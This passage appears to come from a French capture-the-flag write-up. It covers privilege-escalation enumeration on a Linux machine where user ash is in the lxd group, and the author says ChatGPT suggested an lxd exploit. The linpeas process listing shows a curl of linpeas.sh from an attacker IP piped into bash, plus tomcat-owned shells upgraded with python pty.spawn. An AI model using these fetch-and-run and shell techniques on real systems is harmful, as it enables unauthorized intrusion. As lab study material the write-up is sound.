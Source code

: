 ## Privilege Escalation

### Enumeration
On remarque de ash fait parti du groupe lxd et que lxd tourne sur la machine. ChatGPT m'a indiqué la possibilité d'une exploit avec lxd.
```bash
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════
                ╚════════════════════════════════════════════════╝
╔══════════╣ Running processes (cleaned)
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#processes
root       81608  0.0  0.0   2488   588 ?        S    17:18   0:00  _ bpfilter_umh
root           1  0.0  0.5 104124 11460 ?        Ss   11:11   0:01 /sbin/init maybe-ubiquity
root         510  0.0  1.8  92596 37716 ?        S<s  11:11   0:03 /lib/systemd/systemd-journald
root         537  0.0  0.2  21748  5884 ?        Ss   11:11   0:00 /lib/systemd/systemd-udevd
root         677  0.0  0.9 411432 18380 ?        SLsl 11:11   0:05 /sbin/multipathd -d -s
systemd+     711  0.0  0.6  24312 13280 ?        Ss   11:11   0:01 /lib/systemd/systemd-resolved
systemd+     712  0.0  0.3  90388  6392 ?        Ssl  11:11   0:01 /lib/systemd/systemd-timesyncd
  └─(Caps) 0x0000000002000000=cap_sys_time
root         722  0.0  0.5  47524 10376 ?        Ss   11:11   0:00 /usr/bin/VGAuthService
root         723  0.0  0.3 162004  7860 ?        S<sl 11:11   0:12 /usr/bin/vmtoolsd
root         847  0.0  0.3 235548  7296 ?        Ssl  11:11   0:00 /usr/lib/accountsservice/accounts-daemon
message+     848  0.0  0.2   7512  4604 ?        Ss   11:11   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
  └─(Caps) 0x0000000020000000=cap_audit_write
root         854  0.0  0.1  81944  3748 ?        Ssl  11:11   0:00 /usr/sbin/irqbalance --foreground
syslog       856  0.0  0.2 224324  5344 ?        Ssl  11:11   0:00 /usr/sbin/rsyslogd -n -iNONE
root         857  0.0  1.6 926232 33124 ?        Ssl  11:11   0:02 /usr/lib/snapd/snapd
root         858  0.0  0.3  16864  7808 ?        Ss   11:11   0:00 /lib/systemd/systemd-logind
root         895  0.0  0.1   6812  2992 ?        Ss   11:11   0:00 /usr/sbin/cron -f
daemon[0m       934  0.0  0.1   3792  2280 ?        Ss   11:11   0:00 /usr/sbin/atd -f
ash        78178  0.0  0.2  13896  5412 ?        S    17:15   0:00      _ sshd: ash@pts/2
ash        78181  0.0  0.2   8544  5464 pts/2    Ss+  17:15   0:00          _ -bash
ash        78265  0.0  0.5  24760 11216 pts/2    S    17:18   0:00              _ curl http://10.10.14.21/linpeas.sh
ash        78266  0.6  0.2   9260  5984 pts/2    S    17:18   0:00              _ bash
ash        81771  0.0  0.1   9260  4068 pts/2    S    17:18   0:00                  _ bash
ash        81775  0.0  0.1   9208  3636 pts/2    R    17:18   0:00                  |   _ ps fauxwww
ash        81773  0.0  0.1   9260  2776 pts/2    R    17:18   0:00                  _ bash
ash        81774  0.0  0.1   9260  2776 pts/2    S    17:18   0:00                  _ bash
root         956  0.0  0.0   5828  1852 tty1     Ss+  11:11   0:00 /sbin/agetty -o -p -- u --noclear tty1 linux
tomcat       960  0.1  8.6 3094604 175680 ?      Ssl  11:11   0:38 /usr/lib/jvm/default-java/bin/java -Djava.util.logging.config.file=/var/lib/tomcat9/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djava.awt.headless=true -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -Dignore.endorsed.dirs= -classpath /usr/share/tomcat9/bin/bootstrap.jar:/usr/share/tomcat9/bin/tomcat-juli.jar -Dcatalina.base=/var/lib/tomcat9 -Dcatalina.home=/usr/share/tomcat9 -Djava.io.tmpdir=/tmp org.apache.catalina.startup.Bootstrap start
  └─(Caps) 0x0000000000000400=cap_net_bind_service
tomcat      1399  0.0  0.0   2608   600 ?        S    11:17   0:00  _ /bin/sh
  └─(Caps) 0x0000000000000400=cap_net_bind_service
tomcat      1419  0.0  0.4  15968 10104 ?        S    11:18   0:00  |   _ python3 -c import pty;pty.spawn("/bin/bash")
  └─(Caps) 0x0000000000000400=cap_net_bind_service
tomcat      1420  0.0  0.2   8568  5608 pts/0    Ss+  11:18   0:00  |       _ /bin/bash
  └─(Caps) 0x0000000000000400=cap_net_bind_service
tomcat     77260  0.0  0.0   2608   608 ?        S    16:55   0:00  _ /bin/sh
  └─(Caps) 0x0000000000000400=cap_net_bind_service
```
